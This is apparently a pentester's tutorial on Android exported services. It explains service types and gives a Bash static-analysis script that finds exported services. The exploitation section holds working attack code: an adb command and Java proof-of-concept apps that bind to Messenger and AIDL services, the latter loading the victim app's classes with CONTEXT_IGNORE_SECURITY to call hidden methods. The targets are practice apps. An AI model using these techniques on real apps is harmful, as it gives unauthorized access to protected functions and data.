

#  Hacking Android Services: The Lazy Pentester’s Guide (With Scripts!)


Let’s be honest: When we start pentesting an Android app, we all love **Activities**. They are visual, they are right there on the screen, and they are easy to break. But if you stop there, you are leaving money on the table (or bugs in the report).

The real magic often happens in the shadows. **Services**.

In this write-up, we are going to hunt down exposed Services, understand how to talk to them, and I’m going to give you a **custom Bash script** to automate the boring stuff. Less talking, more hacking. Let’s go.

## What is a Service? (The "Factory Worker" Analogy)

Before we start breaking things, we need to know what we are dealing with.

Think of an Android app like a company:

* **Activity:** **The Receptionist.** The face of the company. You talk to them directly, and they are always on screen.
* **Broadcast Receiver:** **The Delivery Guy.** He shows up when an event happens (doorbell rings), drops off a package, and leaves immediately.
* **Service:** **The Factory Worker.** They work in the back for long hours (downloading files, playing music) even if you leave the building.

**The Hacker’s Goal:** We want to find a "Factory Worker" (Service) that left the back door open (`exported="true"`) and trick them into doing something they shouldn't.

### The 30-Second Cheatsheet: Concepts & Examples

To hack these workers, you need to speak their language. Here are the confusing terms explained in one line:

* **Binding:** A live, two-way pipe between your App and the Service.
    * *Real World:* **Spotify.** The UI "binds" to the service so the pause button works instantly.
* **Stub (AIDL):** A bridge allowing your app to call functions inside *another* app.
    * *Real World:* **In-App Purchases.** A game uses a Stub to ask the Google Play Store to "buy coins."
* **Messenger:** A simple inbox that processes requests one by one.
    * *Real World:* **GPS Navigation.** The service sends location updates sequentially to the map.
* **Send Message:** Dropping a specific command (like `42`) into that inbox.
    * *Real World:* **TV Remote App.** Sending a "Vol Up" signal to the background service.

### Started vs. Bound: The Core Difference

* **Started Service:** **"Fire & Forget."** Runs until the job is done.
    * *Ex:* **Instagram Upload.** Continues even if you switch apps.
* **Bound Service:** **"Live Connection."** Runs only as long as you are looking at it.
    * *Ex:* **Live Wallpaper.** Only runs when the system needs to display it on the screen.

## 🗺️ The Attack Map: Identify Your Target

Not all services are created equal. When you look at the code (using Jadx or my script below), you will face a fork in the road.

### 1. Is it Exposed?

First, check `AndroidManifest.xml`.

* `exported="false"` ➔ 🛑 **Stop.** It’s private. Move on.
* `exported="true"` ➔ ✅ **Jackpot.** The door is open.

### 2. What Type is it?

This is where most people get stuck. You need to check the Java/Smali code to see *how* to interact with it.

* **The "Fire & Forget" (Started Service):**
  * **Code sign:** It has `onStartCommand()`.
  * **Attack Vector:** You send an intent, it does a job, and stops.
  * **Vulnerability:** Usually in how it handles the Intent extras or Actions.

* **The "Long Conversation" (Bound Service):**
  * **Code sign:** It has `onBind()`.
  * **Attack Vector:** You connect to it and keep a channel open to send/receive data.
  * **The Boss Level (AIDL):** If `onBind` returns a `.Stub`, you are dealing with **AIDL** (Android Interface Definition Language). This allows you to call internal functions directly!

## 🛠️ Phase 1: Reconnaissance (The Automation Script)

I got tired of manually reading manifests and searching for `onStartCommand`, so I wrote a tool.

This script does the heavy lifting for you. It:

1. Decompiles the APK.
2. Finds all exported services.
3. **Analyze the Smali code** to tell you if it's a *Started* or *Bound* service.
4. Generates a cool HTML report.

### 📜 The Script: `ServiceAnalyzer.sh`

Save this as `analyzer.sh` and run:
```bash
chmod +x analyzer.sh
```

```bash
#!/bin/bash

# ==========================================
#  🛡️ Android Service Analyzer v3.0 (Fast)
#  Automated Static Analysis Framework
#  Supports: APK files OR decompiled folders
#  Made by: falcon0x1 𓅓
# ==========================================

VERSION="3.0"
ENABLE_JADX=false
TARGET_INPUT=""
INPUT_TYPE=""  # "apk" or "folder"
START_TIME=$(date +%s)
TIMESTAMP=$(date +%Y%m%d_%H%M%S)

# Global Variables
BASE_WORK_DIR=""
REPORT_DIR=""
DECOMPILED_DIR=""
MANIFEST=""
SKIP_EXTRACTION=false

# Colors
GREEN="\033[0;32m"
RED="\033[0;31m"
YELLOW="\033[1;33m"
BLUE="\033[0;34m"
CYAN="\033[0;36m"
NC="\033[0m"

# ========== Helper Functions ==========

print_usage() {
    cat << EOF
${BLUE}🛡️  Android Service Analyzer v${VERSION}${NC}

${YELLOW}Usage:${NC}
    $0 [OPTIONS] <input>

${YELLOW}Input can be:${NC}
    • APK file (will be decompiled)
    • Decompiled folder (skips decompilation - FAST!)

${YELLOW}Options:${NC}
    -j, --jadx     Enable Jadx decompilation for exported services
    -h, --help     Show this help message

${YELLOW}Examples:${NC}
    ${GREEN}# Analyze APK (will decompile)${NC}
    $0 app.apk

    ${GREEN}# Analyze already decompiled folder (FAST!)${NC}
    $0 /path/to/decompiled_app/

    ${GREEN}# With Jadx support${NC}
    $0 -j app.apk

${CYAN}💡 Tip: Use decompiled folders for faster repeated analysis!${NC}
EOF
}

check_prerequisites() {
    echo "🔍 Checking prerequisites..."
    local missing_tools=()

    for tool in python3 jq; do
        if ! command -v "$tool" &> /dev/null; then
            missing_tools+=("$tool")
        fi
    done

    # Only check apktool if we're processing an APK
    if [ "$INPUT_TYPE" = "apk" ] && ! command -v apktool &> /dev/null; then
        missing_tools+=("apktool")
    fi

    if [ "$ENABLE_JADX" = true ] && ! command -v jadx &> /dev/null; then
        echo "⚠️  Warning: Jadx requested but not installed."
        missing_tools+=("jadx")
    fi

    if [ ${#missing_tools[@]} -gt 0 ]; then
        echo "❌ Missing tools: ${missing_tools[*]}"
        if [[ " ${missing_tools[*]} " =~ " apktool " ]]; then
            echo "💡 Install apktool: sudo apt install apktool"
        fi
        if [[ " ${missing_tools[*]} " =~ " jq " ]]; then
            echo "💡 Install jq: sudo apt install jq"
        fi
        return 1
    fi

    echo "✅ All required tools are ready."
    return 0
}

detect_input_type() {
    if [ -f "$TARGET_INPUT" ]; then
        if [[ "$TARGET_INPUT" =~ \.apk$ ]]; then
            INPUT_TYPE="apk"
            echo -e "${CYAN}📦 Input detected: APK file${NC}"
        else
            echo "❌ Error: File must be an APK"
            exit 1
        fi
    elif [ -d "$TARGET_INPUT" ]; then
        INPUT_TYPE="folder"
        echo -e "${CYAN}📁 Input detected: Decompiled folder (fast mode)${NC}"

        # Check if AndroidManifest.xml exists in folder
        if [ -f "$TARGET_INPUT/AndroidManifest.xml" ]; then
            echo -e "${GREEN}✅ Valid decompiled APK folder detected${NC}"
        else
            echo -e "${RED}❌ Error: No AndroidManifest.xml found in folder${NC}"
            echo "This doesn't appear to be a valid decompiled APK folder."
            exit 1
        fi
    else
        echo "❌ Error: Input not found: $TARGET_INPUT"
        exit 1
    fi
}

setup_environment() {
    local app_name="unknown"

    if [ "$INPUT_TYPE" = "apk" ]; then
        app_name=$(basename "$TARGET_INPUT" .apk)
        BASE_WORK_DIR="./analysis_${app_name}_${TIMESTAMP}"
        DECOMPILED_DIR="$BASE_WORK_DIR/source"
        SKIP_EXTRACTION=false
    else
        # Folder mode - use existing folder
        app_name=$(basename "$TARGET_INPUT")
        BASE_WORK_DIR="./analysis_${app_name}_${TIMESTAMP}"
        DECOMPILED_DIR="$(cd "$TARGET_INPUT" && pwd)"  # Get absolute path
        SKIP_EXTRACTION=true
    fi

    REPORT_DIR="$BASE_WORK_DIR/reports"

    echo "🛠️  Setting up workspace: $BASE_WORK_DIR"

    mkdir -p "$BASE_WORK_DIR"
    mkdir -p "$REPORT_DIR/json"
    mkdir -p "$REPORT_DIR/html"

    if [ "$ENABLE_JADX" = true ]; then
        mkdir -p "$REPORT_DIR/java"
    fi

    echo "⏰ Start Time: $(date)"
}

extract_apk() {
    if [ "$SKIP_EXTRACTION" = true ]; then
        echo -e "${GREEN}⚡ Skipping decompilation (using existing folder)${NC}"
        MANIFEST="$DECOMPILED_DIR/AndroidManifest.xml"

        # Create a symlink for easy access
        if [ ! -L "$BASE_WORK_DIR/source" ]; then
            ln -s "$DECOMPILED_DIR" "$BASE_WORK_DIR/source" 2>/dev/null || true
        fi

        return 0
    fi

    echo "📦 Decompiling APK: $TARGET_INPUT"
    echo "   (This may take a moment...)"

    if [ ! -f "$TARGET_INPUT" ]; then
        echo "❌ Error: APK file not found."
        exit 1
    fi

    # Decompile APK
    apktool d "$TARGET_INPUT" -o "$DECOMPILED_DIR" -f > /dev/null 2>&1

    if [ $? -ne 0 ]; then
        echo "❌ APK decompilation failed."
        exit 1
    fi

    MANIFEST="$DECOMPILED_DIR/AndroidManifest.xml"
    echo "✅ Decompilation complete."
}

java_to_smali_path() {
    echo "$1" | sed 's/\./\//g'
}

find_smali_file() {
    local smali_base="$1"
    local class_name="$(basename "$smali_base")"

    find "$DECOMPILED_DIR" -type f -name "${class_name}.smali" 2>/dev/null | head -1
}

detect_obfuscation() {
    local service_name="$1"
    local score=0

    if [[ "${service_name##*.}" =~ ^[a-z]$ ]] || [[ "${service_name##*.}" =~ ^[A-Z]$ ]]; then
        score=$((score + 30))
    fi

    if [[ "$service_name" =~ ^[a-z]\.[a-z]\.[a-z]$ ]]; then
        score=$((score + 20))
    fi

    if [ $score -ge 30 ]; then return 0; fi
    return 1
}

detect_vulnerabilities() {
    local service_name="$1"
    local smali_file="$2"
    local vulns=()

    if [ ! -f "$smali_file" ]; then
        echo "[]"
        return
    fi

    if grep -q "Runtime\.exec\|getRuntime()" "$smali_file" 2>/dev/null; then
        vulns+=("Potential RCE (Runtime.exec)")
    fi

    if grep -q "getExtras\|getStringExtra\|getIntExtra" "$smali_file" 2>/dev/null; then
        vulns+=("Accepts Input (Extras)")
    fi

    if grep -q "onBind" "$smali_file" 2>/dev/null && \
       grep -A10 "onBind" "$smali_file" 2>/dev/null | grep -q "return-object.*null"; then
        vulns+=("Exported but Unbindable (Returns Null)")
    fi

    if [ ${#vulns[@]} -gt 0 ]; then
        printf '%s\n' "${vulns[@]}" | jq -R . | jq -s .
    else
        echo "[]"
    fi
}

generate_html_report() {
    local json_file="$1"
    local output_file="$2"

    cat > "$output_file" << 'HTMLEOF'
<!DOCTYPE html>
<html dir="ltr">
<head>
    <meta charset="UTF-8">
    <title>Service Analysis Report</title>
    <style>
        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background: #f5f7fa; padding: 20px; margin: 0; }
        .container { max-width: 1200px; margin: 0 auto; background: white; padding: 40px; border-radius: 12px; box-shadow: 0 4px 20px rgba(0,0,0,0.08); }
        h1 { color: #2c3e50; margin-bottom: 10px; }
        .subtitle { color: #7f8c8d; margin-bottom: 30px; }
        .stats { background: linear-gradient(135deg, #667eea 0%, #764ba2 100%); color: white; padding: 25px; border-radius: 10px; margin-bottom: 30px; }
        .stats h3 { margin-top: 0; font-size: 1.3em; }
        .stats-grid { display: grid; grid-template-columns: repeat(auto-fit, minmax(150px, 1fr)); gap: 15px; margin-top: 15px; }
        .stat-box { background: rgba(255,255,255,0.2); padding: 15px; border-radius: 8px; text-align: center; }
        .stat-number { font-size: 2em; font-weight: bold; }
        .stat-label { font-size: 0.9em; opacity: 0.9; margin-top: 5px; }
        .card { border: 1px solid #e1e8ed; padding: 20px; margin-bottom: 20px; border-radius: 10px; border-left: 5px solid #3498db; transition: transform 0.2s, box-shadow 0.2s; }
        .card:hover { transform: translateY(-2px); box-shadow: 0 6px 20px rgba(0,0,0,0.1); }
        .exported-true { border-left-color: #e74c3c; background-color: #fff5f5; }
        .service-name { color: #2c3e50; font-size: 1.2em; font-weight: 600; margin-bottom: 10px; word-break: break-all; }
        .vuln { color: #c0392b; font-weight: bold; margin-top: 15px; }
        .vuln-list { background: #fef5e7; padding: 10px 15px; border-radius: 5px; margin-top: 10px; }
        .tag { background: #ecf0f1; padding: 5px 12px; border-radius: 20px; font-size: 0.85em; margin-right: 8px; display: inline-block; margin-bottom: 5px; }
        .tag-exported { background: #e74c3c; color: white; }
        .tag-obfuscated { background: #f39c12; color: white; }
        .no-services { text-align: center; padding: 60px 20px; color: #7f8c8d; }
        .no-services-icon { font-size: 4em; margin-bottom: 20px; }
    </style>
</head>
<body>
    <div class="container">
        <h1>🛡️ Android Service Analysis Report</h1>
        <div class="subtitle">Comprehensive security analysis of Android services</div>
        <div class="stats" id="stats"></div>
        <div id="content"></div>
    </div>
    <script>
HTMLEOF

    echo "        const data = $(cat "$json_file");" >> "$output_file"

    cat >> "$output_file" << 'HTMLEOF'
        const container = document.getElementById('content');
        const stats = document.getElementById('stats');

        const totalServices = data.services.length;
        const exportedServices = data.services.filter(s => s.exported).length;
        const obfuscatedServices = data.services.filter(s => s.obfuscated).length;
        const vulnerableServices = data.services.filter(s => s.vulnerabilities.length > 0).length;

        stats.innerHTML = `
            <h3>📊 Analysis Statistics</h3>
            <div class="stats-grid">
                <div class="stat-box">
                    <div class="stat-number">${totalServices}</div>
                    <div class="stat-label">Total Services</div>
                </div>
                <div class="stat-box">
                    <div class="stat-number">${exportedServices}</div>
                    <div class="stat-label">Exported</div>
                </div>
                <div class="stat-box">
                    <div class="stat-number">${obfuscatedServices}</div>
                    <div class="stat-label">Obfuscated</div>
                </div>
                <div class="stat-box">
                    <div class="stat-number">${vulnerableServices}</div>
                    <div class="stat-label">Vulnerable</div>
                </div>
            </div>
        `;

        if (totalServices === 0) {
            container.innerHTML = `
                <div class="no-services">
                    <div class="no-services-icon">📭</div>
                    <h2>No Services Found</h2>
                    <p>This application does not declare any services in its AndroidManifest.xml</p>
                </div>
            `;
        } else {
            data.services.forEach(s => {
                let html = `<div class="card ${s.exported ? 'exported-true' : ''}">
                    <div class="service-name">${s.name}</div>
                    <div>
                        <span class="tag">Type: ${s.type}</span>
                        <span class="tag ${s.exported ? 'tag-exported' : ''}">Exported: ${s.exported}</span>
                        <span class="tag ${s.obfuscated ? 'tag-obfuscated' : ''}">Obfuscated: ${s.obfuscated}</span>
                        ${s.permission ? `<span class="tag">Permission: ${s.permission}</span>` : ''}
                    </div>`;

                if(s.vulnerabilities.length > 0) {
                    html += '<div class="vuln">⚠️ Potential Vulnerabilities:</div>';
                    html += '<div class="vuln-list"><ul>';
                    s.vulnerabilities.forEach(v => html += `<li>${v}</li>`);
                    html += '</ul></div>';
                }

                html += `</div>`;
                container.innerHTML += html;
            });
        }
    </script>
</body>
</html>
HTMLEOF
}

main_analysis() {
    echo ""
    echo "🚀 Starting Static Analysis..."

    if [ ! -f "$MANIFEST" ]; then
        echo "❌ Manifest not found at $MANIFEST"
        exit 1
    fi

    # Count services
    local service_count=$(grep -o '<service' "$MANIFEST" | wc -l)

    echo ""
    echo -e "${BLUE}📱 Found ${GREEN}$service_count${BLUE} service(s) in manifest${NC}"
    echo ""

    # Component summary
    local activity_count=$(grep -o '<activity' "$MANIFEST" | wc -l)
    local receiver_count=$(grep -o '<receiver' "$MANIFEST" | wc -l)
    local provider_count=$(grep -o '<provider' "$MANIFEST" | wc -l)

    echo "📊 Component Summary:"
    echo "   ├─ Activities: $activity_count"
    echo "   ├─ Services: $service_count"
    echo "   ├─ Receivers: $receiver_count"
    echo "   └─ Providers: $provider_count"
    echo ""

    if [ "$service_count" -eq 0 ]; then
        echo -e "${YELLOW}ℹ️  This application has no services declared.${NC}"
        echo '{"services": []}' > "$REPORT_DIR/json/final_report.json"
        generate_html_report "$REPORT_DIR/json/final_report.json" "$REPORT_DIR/html/index.html"
        return 0
    fi

    # Process each service
    local counter=0

    grep -n '<service' "$MANIFEST" | while IFS=: read -r line_num line_content; do
        counter=$((counter + 1))

        local service_block=$(sed -n "${line_num},/\/service\|\/>/ p" "$MANIFEST")

        local name=$(echo "$service_block" | grep -o 'android:name="[^"]*"' | head -1 | cut -d'"' -f2)

        # Handle relative names
        if [[ "$name" =~ ^\. ]]; then
            local package=$(grep 'package=' "$MANIFEST" | head -1 | grep -o 'package="[^"]*"' | cut -d'"' -f2)
            name="${package}${name}"
        fi

        if [ -z "$name" ]; then continue; fi

        echo -e "   ${GREEN}🔍${NC} Analyzing: ${BLUE}$name${NC}"

        # Extract attributes
        local exported="false"
        if echo "$service_block" | grep -q 'android:exported="true"'; then
            exported="true"
        fi

        local permission=$(echo "$service_block" | grep -o 'android:permission="[^"]*"' | cut -d'"' -f2)

        # Find Smali
        local smali_path=$(java_to_smali_path "$name")
        local smali_file=$(find_smali_file "$smali_path")

        # Determine Type
        local type="unknown"
        if [ -n "$smali_file" ] && [ -f "$smali_file" ]; then
            if grep -q "onStartCommand" "$smali_file" 2>/dev/null; then 
                type="started"
            fi
            if grep -q "onBind" "$smali_file" 2>/dev/null; then
                if [ "$type" == "started" ]; then 
                    type="hybrid"
                else 
                    type="bound"
                fi
                if grep -q "\$Stub" "$smali_file" 2>/dev/null; then 
                    type="bound (AIDL)"
                fi
                if grep -q "Messenger" "$smali_file" 2>/dev/null; then 
                    type="bound (Messenger)"
                fi
            fi
        fi

        # Check Obfuscation
        local obfuscated="false"
        if detect_obfuscation "$name"; then 
            obfuscated="true"
        fi

        # Check Vulnerabilities
        local vulns_json="[]"
        if [ -n "$smali_file" ] && [ -f "$smali_file" ]; then
            vulns_json=$(detect_vulnerabilities "$name" "$smali_file")
        fi

        # Construct JSON
        local json_obj=$(jq -n \
            --arg id "$counter" \
            --arg name "$name" \
            --argjson exported "$exported" \
            --arg type "$type" \
            --argjson obfuscated "$obfuscated" \
            --argjson vulns "$vulns_json" \
            --arg permission "$permission" \
            '{id: ($id | tonumber), name: $name, exported: $exported, type: $type, obfuscated: $obfuscated, vulnerabilities: $vulns, permission: $permission}')

        echo "$json_obj" > "$REPORT_DIR/json/service_${counter}.json"
    done

    # Aggregate JSON
    echo ""
    echo "📊 Generating Reports..."

    if ls "$REPORT_DIR/json"/service_*.json 1> /dev/null 2>&1; then
        jq -n '{services: [inputs]}' "$REPORT_DIR/json"/service_*.json > "$REPORT_DIR/json/final_report.json"
        generate_html_report "$REPORT_DIR/json/final_report.json" "$REPORT_DIR/html/index.html"

        local final_count=$(ls "$REPORT_DIR/json"/service_*.json 2>/dev/null | wc -l)
        echo -e "${GREEN}✅ Successfully analyzed $final_count service(s)${NC}"
    else
        echo '{"services": []}' > "$REPORT_DIR/json/final_report.json"
        generate_html_report "$REPORT_DIR/json/final_report.json" "$REPORT_DIR/html/index.html"
    fi
}

# ========== Main Execution ==========

main() {
    # Parse arguments
    while [[ "$#" -gt 0 ]]; do
        case $1 in
            -j|--jadx) ENABLE_JADX=true ;;
            -h|--help) 
                print_usage
                exit 0
                ;;
            -*) 
                echo "Unknown option: $1"
                echo "Use -h or --help for usage information"
                exit 1
                ;;
            *) TARGET_INPUT="$1" ;;
        esac
        shift
    done

    # Validate input
    if [ -z "$TARGET_INPUT" ]; then
        echo -e "${RED}Error: No input specified${NC}"
        echo ""
        print_usage
        exit 1
    fi

    # Detect input type (APK or folder)
    detect_input_type

    # Run analysis
    check_prerequisites || exit 1
    setup_environment
    extract_apk
    main_analysis

    # Calculate execution time
    local end_time=$(date +%s)
    local duration=$((end_time - START_TIME))

    echo ""
    echo "🎉 Analysis Complete!"
    echo -e "⏱️  Execution time: ${GREEN}${duration}s${NC}"
    echo "📂 Output directory: $BASE_WORK_DIR"
    echo "📄 HTML Report: $REPORT_DIR/html/index.html"
    echo "📋 JSON Report: $REPORT_DIR/json/final_report.json"
    echo ""

    if [ "$INPUT_TYPE" = "folder" ]; then
        echo -e "${CYAN}💡 Tip: You used fast mode (decompiled folder)!${NC}"
    fi
}

main "$@"
```


**How to use it:**

Fast Mode (Recommended for repeated analysis):

```bash
chmod +x analyzer.sh
```
# Use already decompiled folder (INSTANT! ⚡)
```
./analyzer.sh ./analysis_io.hextree.attacksurface_20260108_130313/source/
```
# Or any apktool output
```
./analyzer.sh /path/to/decompiled_app/
```
APK Mode (First-time analysis):

```bash
# Analyze APK (will decompile automatically)
./analyzer.sh app.apk
```

*Boom. Open the HTML report and look for the red targets.*

## ⚔️ Phase 2: Exploitation (Let's Break Stuff)

Now that we found a target, how do we exploit it?

### Scenario A: The "Started Service" (Intent Injection)

**The Target:** A service that performs an action based on an Intent string.
**The Code (Simulated):**

```java
public int onStartCommand(Intent intent, int flags, int startId) {
    if (intent.getAction().equals("com.admin.GIVE_FLAG")) {
        revealSecret();
    }
}

```

**The Attack:**
We don't need to write code. We use `adb`.

```bash
adb shell am start-service -n com.target.app/.MyService -a com.admin.GIVE_FLAG

```

*Result: The service triggers and executes the hidden function.*

### Scenario B: The "Messenger" Service (The Silent Listener)

**The Target:** A Bound Service that uses `Messenger` and `Handler`.
**The Code Sign:** You see `new Messenger(new IncomingHandler(...))` and a `handleMessage(Message msg)` function.

**The Problem:**
You might think: *"I'll just use ADB like in Scenario A!"*
**WRONG.** 🛑
* **ADB** speaks "Intents" (Strings/Text).
* **Messenger** speaks "Message Objects" (Java Memory Objects).

There is no ADB command to create a Java `Message` object. If you try `am start-service`, the service handles it in `onBind`, ignores your Intent, and waits for a Message that never comes.

**The Hacker Way:**
We must write a tiny **PoC App** (Proof of Concept). We need to bind to the service, create a specific `Message` (usually with a specific integer ID called `.what`), and send it into the pipe.

**The Attack Code (Java):**
*Target Logic: `if (msg.what == 42) giveFlag();`*

```java
// 1. Define the Connection
ServiceConnection connection = new ServiceConnection() {
    @Override
    public void onServiceConnected(ComponentName name, IBinder service) {
        try {
            // A. Turn the raw Binder into a Messenger
            Messenger messenger = new Messenger(service);

            // B. Craft the payload (The "Bullet")
            // We found "42" by reading the smali code in the 'handleMessage' function
            Message msg = Message.obtain(null, 42);
            //if we want to send more thand massage number 
            Bundle bundle = new Bundle();
            bundle.putString("password", "123456");
            msg.setData(bundle);

            // C. Fire in the hole!
            messenger.send(msg);
            
            Log.d("HACK", "Message sent! Check logs for flag.");
            
        } catch (RemoteException e) { e.printStackTrace(); }
    }
    
    @Override
    public void onServiceDisconnected(ComponentName name) { }
};

// 2. Trigger the Bind (Put this in your Attack Activity)
Intent intent = new Intent();
intent.setClassName("com.victim.app", "com.victim.app.TheMessengerService");
bindService(intent, connection, Context.BIND_AUTO_CREATE);
```
### Scenario C: The "Bound Service" (AIDL & ClassLoader)

**The Target:** An AIDL service. The `onBind` returns a `Stub`.
**The Problem:** Normally, you have to extract `.aidl` files, copy them to your project, and hope the package names match. It's painful.
**The Hacker Way:** Use **Java Reflection (ClassLoader)**. We make our attack app "steal" the class definition from the victim app at runtime.

**The Attack Code (Java):**

```java
// 1. Connect to the service
ServiceConnection mConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName name, IBinder service) {
        try {
            // 2. Load the victim's class dynamically
            Context victimContext = createPackageContext("com.victim.app", 
                Context.CONTEXT_INCLUDE_CODE | Context.CONTEXT_IGNORE_SECURITY);
            
            Class<?> targetInterface = victimContext.getClassLoader()
                .loadClass("com.victim.app.ISecretInterface");
            
            // 3. Morph the Binder into the Interface
            // (Equivalent to ISecretInterface.Stub.asInterface(service))
            Class<?> stub = null;
            for (Class<?> c : targetInterface.getDeclaredClasses()) {
                if (c.getSimpleName().equals("Stub")) { stub = c; break; }
            }
            
            Method asInterface = stub.getMethod("asInterface", IBinder.class);
            Object remoteService = asInterface.invoke(null, service);
            
            // 4. Call the hidden function!
            Method getFlag = targetInterface.getMethod("getFlag");
            Log.d("HACK", "Flag: " + getFlag.invoke(remoteService));
            
        } catch (Exception e) { e.printStackTrace(); }
    }
};

```

## 📸 Visual Summary (The Mind Map)

If you get lost, just follow this map. This is how I decide whether to attack or ignore a service.


**The Logic:**

1. **Exported?** No ➔ Ignore.
2. **Permission `BIND_JOB_SERVICE`?** Yes ➔ Ignore (System only).
3. **Has `onStartCommand`?** ➔ Attack with `am start-service`.
4. **Has `onBind` + `Stub`?** ➔ Attack with ClassLoader/AIDL.

## 🏁 Conclusion

Services are not scary; they are just misunderstood. By using static analysis (or my script) to identify the **type** of service, you stop guessing and start exploiting.

**Your Homework:**

1. Download a vulnerable app (like HexTree or InsecureBank).
2. Run the script.
3. Try to trigger the service using ADB first.

Happy Hacking! 🏴‍☠️

---

*Did you find this useful? Star the script on my GitHub [Link] and let me know in the comments!*
